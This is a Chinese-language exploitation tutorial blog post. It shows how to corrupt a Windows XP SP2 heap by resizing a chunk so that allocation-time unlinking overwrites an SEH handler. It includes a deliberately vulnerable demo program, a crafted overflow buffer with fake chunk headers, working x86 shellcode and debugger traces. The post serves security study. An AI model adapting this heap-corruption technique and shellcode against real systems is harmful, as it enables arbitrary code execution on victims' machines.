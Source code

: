 ```yaml
---
layout:		post
title:		利用chunk重设大小攻击堆
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp2 x86  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>注意: 原版的OD没法在FreeList操作指令断下, 可以用吾爱破解OD  
>原理: XP系统只有在堆链表删除操作时才进行Safe Unlink检查, 那么只要在堆分配时完成劫持, 就不会触发该机制  
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include "stdafx.h"
#include <stdio.h>
#include <windows.h>
#include <stdlib.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

int main(int argc, char* argv[])
{
	HLOCAL h1,h2;
	HANDLE hp;

	hp = HeapCreate(0,0x1000,0x10000);
	__asm int 3
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,3);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,5);
	memcpy(h1,shellcode,3);
	memcpy(h2,shellcode,5);

	return 0;
}
```

OD附加上去, 单步到完成两次分配

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x00.png)

堆表起始于0x00390178, 堆块起始于0x00390680

```
# 第1块
Self Size = 00 04 # 0x04*8=0x20 bytes, 请求3 bytes
Previous chunk Size = 00 08
Cookie = 01
Flags = 07
Unused bytes = 1D # 0x20-0x03=0x1D bytes
Segment index = 00

# 第2块
Self Size = 00 04 # 0x04*8=0x20 bytes, 请求5 bytes
Previous chunk Size = 00 04
Cookie = 05
Flags = 07
Unused bytes = 1B # 0x20-0x05=0x1B bytes
Segment index = 00

# 第3块(空闲大chunk, 未使用)
Self Size = 01 28 # 0x128*8=0x940 bytes, 0x980 - 0x20 * 2 = 0x940
Previous chunk Size = 00 04
Cookie = EE
Flags = 14
Unused bytes = EE
Segment index = 00
```

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x01.png)

可以看到这两个chunk的尾部还留有剩余空间, 发现原版OD在调试堆时有问题, 以下该用吾爱破解OD

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x02.png)

再重新看一下堆结构

```
# 第1块
Self Size = 00 02 # 0x02*8=0x10 bytes, 请求3 bytes
Previous chunk Size = 00 08
Cookie = 78
Flags = 01
Unused bytes = 0D # 0x10-0x03=0x0D bytes
Segment index = 00

# 第2块
Self Size = 00 02 # 0x02*8=0x10 bytes, 请求5 bytes
Previous chunk Size = 00 02
Cookie = 7A
Flags = 01
Unused bytes = 0B # 0x10-0x05=0x0B bytes
Segment index = 00

# 第3块(空闲大chunk, 未使用)
Self Size = 01 2C # 0x12C*8=0x960 bytes, 0x980 - 0x10 * 2 = 0x960
Previous chunk Size = 00 02
Cookie = 00
Flags = 10
Unused bytes = 00
Segment index = 00
```

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x03.png)


### 0x01 exploit

贴入以下代码

```
#include "stdafx.h"
#include <stdio.h>
#include <windows.h>

char shellcode[]=  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x10\x01\x10\x00\x99\x99\x99\x99"		// Header
"\xEB\x06\x39\x00\xEB\x06\x39\x00"		// Flink Blink
"\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\xEB\x31"		// short jmp
"\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x11\x01\x10\x00\x99\x99\x99\x99"		// Header
"\x8C\x06\x39\x00\xE4\xFF\x12\x00"		// fake Flink Blink
"\x90\x90\x90\x90"  
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7";

int main(int argc, char* argv[])
{
	HLOCAL h1,h2;
	HANDLE hp;

	hp = HeapCreate(0,0x1000,0x10000);
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	memcpy(h1,shellcode,300);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	
	int zero=0;
	zero=1/zero;
	printf("%d",zero);

	return 0;
}
```

单步到完成第一次分配

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x04.png)
![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x05.png)

在0x7c931513处下断

```
lea eax,dword ptr ds:[edi+0x8]		// 获取新chunk的Flink位置
mov dword ptr ss:[ebp-0xF0],eax
mov edx,dword ptr ds:[ecx+0x4]		// 获取下一新chunk中的Blink的值
mov dword ptr ss:[ebp-0xF8],edx
mov dword ptr ds:[eax],ecx 			// 保存新chunk的Flink
mov dword ptr ds:[eax+0x4],edx		// 保存新chunk的Blink
mov dword ptr ds:[edx],eax			// 保存下一chunk中的Blink->Flink的Flink
ov dword ptr ds:[ecx+0x4],eax		// 保存下一chunk中的Blink
```

[0x003A06B8] = 0x003A06EB, 新chunk->Flink = 旧chunk->Flink

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x06.png)

[0x003A06B8+4] = 0x0012FFE4, 新chunk->Blink = 旧chunk->Flink->Blink

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x07.png)
![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x08.png)

[0x0012FFE4] = 0x003A06B8, 旧chunk->Flink->Blink->Flink = 新chunk, 触发任意写

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x09.png)

现在S.E.H链尾节点的Handler已经改写成堆地址

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x0a.png)

[0x003A06EB+4] = 0x003A06B8, 旧chunk->Flink->Blink = 新chunk

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x0b.png)

当触发异常, 转入shellcode执行

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x0c.png)

pwn~

![](/assets/img/exploit/2017-12-31-exploit-by-chunk-resize/0x0d.png)

最后还有点问题, 吾爱破解OD加载时堆基址是0x003A0000, 直接运行要改成0x00390000